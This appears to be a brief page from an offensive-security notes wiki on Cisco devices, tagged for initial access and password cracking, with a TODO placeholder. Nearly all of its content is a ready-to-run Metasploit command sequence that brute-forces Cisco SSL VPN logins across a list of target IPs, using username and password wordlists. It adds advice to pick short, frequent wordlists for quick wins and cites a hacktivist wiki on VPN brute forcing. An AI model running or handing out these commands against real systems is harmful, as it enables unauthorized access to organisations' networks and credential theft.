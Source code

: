 # Cisco

Search Tag(s): #initial-access #exploitation #password-cracking #network-protocols #internet-of-things #metasploit-framework

> [!NOTE] Slow Bruteforce
> Since bruteforcing may take a long time. Use a shorter and most frequent [[wordlists|wordlists helpers]] to find low hanging fruit.

TODO: Fill this info

```
msf > use auxiliary/scanner/http/cisco_ssl_vpn

msf auxiliary(scanner/http/cisco_ssl_vpn) > set RHOSTS file:ip_targets.txt

msf auxiliary(scanner/http/cisco_ssl_vpn) > set RPORT <PORT>

msf auxiliary(scanner/http/cisco_ssl_vpn) > set USER_FILE users.txt

msf auxiliary(scanner/http/cisco_ssl_vpn) > set PASS_FILE passwords.txt

msf auxiliary(scanner/http/cisco_ssl_vpn) > set threads 10

msf auxiliary(scanner/http/cisco_ssl_vpn) > run
```

---
## References

- [Enlace Hacktivista: VPN brute forcing](https://enlacehacktivista.org/index.php?title=VPN_brute_forcing)